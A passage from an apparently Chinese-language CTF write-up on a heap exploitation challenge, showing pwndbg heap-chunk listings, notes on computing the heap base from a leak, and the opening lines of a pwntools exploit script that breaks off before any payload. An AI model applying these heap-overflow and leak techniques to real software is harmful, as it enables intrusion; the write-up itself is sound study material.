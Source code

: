 ```
0x55555555b2e0      0x0                 0x110                Used                None              None
0x55555555b3f0      0x0                 0x30                 Used                None              None
0x55555555b420      0x0                 0x20                 Used                None              None
0x55555555b440      0x0                 0x110                Used                None 
```

所以 如果要overflow heap chunk 要知道他的 chunk data size = 0x110 = 272
## 3.5 leak heap 
为什么这边的leak heap 将奇怪的？
为什么 heap base 不是 直接0x55555555b000 要加一个 0x290?
heap_base = leak_heap - 0x400 + 0x2a0
print("heap base",hex(heap_base))

我懂答案了 break 了 再parseheap
0x55555555b000 好像是kali 带的 所以真正的 第一个chunk 1是 0x55555555b290 !!!!!
```
pwndbg> parseheap
addr                prev                size                 status              fd                bk                                                                                                         
0x55555555b000      0x0                 0x290                Used                None              None
0x55555555b290      0x0                 0x30                 Used                None              None
0x55555555b2c0      0x0                 0x20                 Used                None              None
0x55555555b2e0      0x0                 0x110                Used                None              None
0x55555555b3f0      0x0                 0x30                 Used                None              None
0x55555555b420      0x0                 0x20                 Used                None              None
0x55555555b440      0x0                 0x110                Used                None              None
```

# 4.0 FLAG 
after CTF 

# 5.0 FINAL SCRIPT 
```python

# -*- coding: utf-8 -*-
from pwn import*
# context.log_level='debug'
context.arch='amd64'
context.os = "linux"

pc = "./love_letter_patched"

libc  = ELF('./libc.so.6', checksec=False)
ld = ELF("ld-2.35.so")
exe = context.binary = ELF(pc)



scripts = """
b *save_notes+419
```